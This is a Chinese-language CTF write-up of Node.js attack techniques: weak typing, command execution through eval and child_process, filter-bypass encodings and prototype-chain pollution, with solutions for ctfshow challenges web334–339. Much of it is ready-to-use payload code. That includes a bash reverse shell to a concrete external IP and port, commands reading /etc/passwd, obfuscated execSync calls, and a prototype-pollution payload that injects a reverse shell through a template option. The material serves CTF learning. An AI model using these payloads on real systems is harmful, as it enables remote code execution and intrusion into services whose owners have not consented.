

nodejs
难点
原型链
nodejs
特性
弱类型比较
和php一样存在弱类型的特性
1 | > 1=='1' |
数字与数字字符串比较时，数字型字符串会被强转为数字之后比较
字符串与字符串比较，比第一个ASCII码
1 | > []==[] |
空数组比较为false
数组之间比较第一个值，如果有字符串取第一个比较
数组永远比非数值型字符串小
1 | > null==undefined |
null弱等于undefined，NaN不等于NaN
变量拼接
1 | > 5+[6,6] |
数字或字符串跟数组，会和数组中的第一个元素进行拼接，返回的是字符串，拼接的元素与原来的元素之间用,分隔
调用方法时可以用中括号 + 字符串的形式拼接来绕过某些限制
1 | > console['l'+'og']('ciallo') |
ES6模板字符串
1 | var ranker = "top"; |

1 | console.log(`hello${ranker}world`); |

利用模板字符串或许可以用来bypass一些关键词的过滤
单引号和反引号
在nodejs中反引号可以用来替代单引号
大小写特性
对于toUpperCase()：字符”ı”、”ſ” 经过toUpperCase处理后结果为 “I”、”S”
对于toLowerCase()：字符”K”经过toLowerCase处理后结果为”k”(这个K不是K)
__filename
__filename 表示当前正在执行的脚本的文件名。它将输出文件所在位置的绝对路径，且和命令行参数所指定的文件名不一定相同。 如果在模块中，返回的值是当前模块文件的路径。
1 | // 输出全局变量 __filename 的值 |
__dirname
__dirname 表示当前执行脚本所在的目录，即js文件所在文件夹的路径
命令执行
eval()
和PHP中eval函数一样，eval() 函数可计算某个字符串，并执行其中的的 JavaScript 代码。
demo：
1 | var express = require("express"); |
child_process
nodejs中用来执行系统命令的模块
以下几个函数底层均为调用 spawn
1 | const child = spawn(file, args, { |
exec() & execSync()
本地测试上面 eval 的那个demo
Node.js中的chile_process.exec调用的是 bash.sh ，它是一个bash解释器，可以执行系统命令。
在eval函数的参数中可以构造require('child_process').exec('');来进行调用。
尝试弹计算器
1 | ?eval=require('child_process').exec('calc'); |

反弹shell：
1 | require('child_process').exec("bash -c 'bash -i >& /dev/tcp/115.236.153.170/14723 <&1'") |
execFile()
启动一个子进程来执行可执行文件
1 | require('child_process').execFile("calc",{shell:true}); |
可以执行文件，也可以像这样调用指令，执行文件指的是执行exe这样的，而不是执行js文件
fork()
用于执行 js 文件
实际利用中需要提前写入恶意文件
1 | require('child_process').fork("./hacker.js"); |
Javascript
spawn() & spawnSync()
启动一个子进程来执行命令
1 | require('child_process').spawn("calc",{shell:true}); |
注：上述的exec、spawn、fork等等都是分为同步和异步的，所谓异步也就是不堵塞程序的执行，因此也不可能会有回显，因此一般我们用的都是同步的命令执行来获取回显，如execSync，spawnSync等等
readdirSync
1 | 读取当前目录信息 |
readFileSync
1 | require('fs').readFileSync('/etc/passwd','utf-8') |
过滤require
现在我们添加一点过滤，把require过滤掉
1 | var express = require("express"); |

很明显上面的payload打不通了
这个时候可以使用global.process.mainModule.constructor._load('child_process').exec('calc')来执行命令，这里其实和flask ssti的payload有类似之处
global对象是 Node.js 环境下的全局对象，它包含了 Node.js 中的一些全局变量和函数。process对象是global对象的一个属性，它包含了当前 Node.js 进程的相关信息和控制方法。mainModule属性是process对象的一个属性，它指向当前 Node.js 应用程序的入口模块。constructor属性是mainModule对象的一个属性，它指向当前模块的构造函数。_load()方法是constructor对象的一个方法，它可以加载指定的模块并返回该模块的导出对象。
即global.process.mainModule.constructor._load==require

注：node 是基于 chrome v8 内核的，运行时，压根就不会有 require 这种关键字，模块加载不进来，所以有时候会报require is not defined 。但在 node交互环境，或者写 js 文件时，通过 node 运行会自动把 require 进行编译
setIntval()
间隔两秒执行函数：
1 | setInterval(some_function, 2000) |
setTimeout()
两秒后执行函数：
1 | setTimeout(some_function, 2000); |
some_function处就类似于eval函数的参数
弹计算器：
1 | setInterval(require('child_process').exec('calc'), 2000); |
Javascript
整型溢出
当设置的延迟时间不在1~2^31-1这个int范围内时，就会溢出为1，相当于0延迟
Function()
输出HelloWorld：
1 | Function("console.log('HelloWolrd')")() |
类似于php中的create_function
bypass
16进制编码
1 | console.log("a"==="\x61"); |
正则匹配的时候，16进制不会转化成字符，于是有
1 | require("child_process")["exe\x63Sync"]("curl 127.0.0.1:1234") |
unicode编码
1 | console.log("\u0061"==="a"); |
加号拼接
加号在js中可以用来连接字符
1 | require('child_process')['exe'%2b'cSync']('curl 127.0.0.1:1234') |
模板字符串
上面讲特性的时候已经提到过了
1 | require('child_process')[`${`${`exe`}cSync`}`]('curl 127.0.0.1:1234') |
concat连接
利用js中的concat函数连接字符串
1 | require("child_process")["exe".concat("cSync")]("curl 127.0.0.1:1234") |
base64编码
1 | eval(Buffer.from('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=','base64').toString()) |
接下来考虑一些js的语法和内置函数来bypass
Obejct.keys
实际上通过require导入的模块是一个Object，所以就可以用Object中的方法来操作获取内容。利用Object.values就可以拿到child_process中的各个函数方法，再通过数组下标就可以拿到execSync
1 | console.log(require('child_process').constructor===Object) |
Reflect
使用Reflect这个关键字来实现反射调用函数
可以通过Reflect.ownKeys(global)拿到所有函数，然后global[Reflect.ownKeys(global).find(x=>x.includes('eval'))]即可得到eval
1 | console.log(Reflect.ownKeys(global)) |
拿到eval，接下来就能rce了
1 | global[Reflect.ownKeys(global).find(x=>x.includes('eval'))]('global.process.mainModule.constructor._load("child_process").execSync("whoami")').toString() |
这里还有个小trick：如果过滤了eval关键字，可以用includes('eva')来搜索eval函数，也可以用startsWith('eva')来搜索
过滤中括号
获取到eval的方式是通过global数组，其中用到了中括号[]，假如中括号被过滤，可以用Reflect.get来绕
1 | Reflect.get(target, propertyKey[, receiver])`的作用是获取对象身上某个属性的值，类似于`target[name] |
所以取 eval 的函数方式变成
1 | Reflect.get(global, Reflect.ownKeys(global).find(x=>x.includes('eva'))) |
后面拼接上命令执行的payload即可
基础原型链污染
原型链
在javascript，每一个实例对象都有一个prototype属性，prototype 属性可以向对象添加属性和方法
1 | object.prototype.name=value |
在javascript，每一个实例对象都有一个__proto__属性，这个实例属性指向对象的原型对象(即原型)
可以通过以下方式访问得到某一实例对象的原型对象：
1 | objectname["__proto__"] |
示例：
1 | var o = {a: 1}; |

漏洞原理
对于语句：object[a][b] = value 如果可以控制a、b、value的值，将a设置为__proto__，
我们就可以给object对象的原型设置一个b属性，值为value。
这样所有继承object对象原型的实例对象在本身不拥有b属性的情况下，都会拥有b属性，且值为value。
例子：
1 | object1 = {"a":1, "b":2}; |
Javascript

我们可以发现object2在没有设置foo属性的情况下，也输出了Hello World
因为在第二条语句中，我们对object1的原型对象设置了一个foo属性，而object2和object1一样，都是继承了Object.prototype。
在获取object2.foo时，由于object2本身不存在foo属性，就会往父类Object.prototype中去寻找
这就造成了一个原型链污染，所以原型链污染的本质应该是利用子类继承父类的特性实现的，只要我们能控制一个子类并修改其对象的原型，就能影响到所有和这个对象同一个原型的对象
merge操作
表示合并两个或多个对象或数组的操作，将它们的属性或元素合并到一个新的对象或数组中
例：
1 | function merge(target, source) { |
注：在JSON解析的情况下，__proto__会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历object2的时候会存在这个键。
最终输出的结果为

可见object3的b是从原型中获取到的，说明Object已经被污染了。
大致流程：
1 | object2.a=1=object1.a |
bypass
__proto__过滤
过滤了__proto__可以考虑在末尾加空格__proto__ ，或者使用上面提到的obj.constructor.prototype来代替，obj.constructor.prototype==obj.__proto__
即
1 | { |
web334
login.js
1 | // 引入Express框架 |
user.js
1 | module.exports = { |
关键部分
1 | return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password; |
我们传入的name不能是大写的CTFSHOW，然而我们的账号就是大写的CTFSHOW，不要急我们接着往下看，后面有一个tuUpperCase，他会把我们传入的小写字母变成大写的，所以这里我们就直接传进去小写的ctfshow就可以了，密码123456
web335
在网页源码当中看到需要传入的参数?eval=
1 | payload: |
这里使用的是js的shell

https://blog.csdn.net/m0_64815693/article/details/130076401
使用require加载child_process模块
然后调用child_process当中的execSync
最后加的toString来
execSync 返回的是 Buffer，如果不转换，你拿到的是二进制数据，而不是字符串
buffer
1 | const buf = Buffer.from('Hello'); |
stdout 代表 标准输出（Standard Output），即 spawnSync 运行命令后返回的数据输出
web336
过滤了exec
方法一：
1 | ?eval=require('child_process').spawnSync('tac',['fl001g.txt']).stdout.toString() |
方法二：
1 | 读取文件 |
方法三：
1 | //列出当前目录下的文件 |
方法四：
1 | ?eval=require('child_process').execSync('ls'); |
web337
1 | var express = require('express'); |
要求a和b不能为空，a的长度等于b的长度，a不能等于b,且a+flag的md5值要等于b+flag的md5值
1 | a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag |
?a[]=1&b[]=2
web338

1 | {"a": 1, "__proto__": {"ctfshow": "36dboy"}} |
web339
这里与338的题不一样在ctfshow要为flag，但是我们并不知道flag是啥

其实这里还多了一个文件app.js，我们的入手点就在其中

其中有
1 | Function(query)(query) |
Function(query) 动态创建了一个新的函数，相当于 new Function('query')。
- 也就是说，把**
query字符串内容**当作 JavaScript 代码执行了！
然后紧接着 (query)，又执行了这个新建的函数。
1 | { |
我们这里结合反弹shll的知识
1 | {"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"');var __tmp2"}} |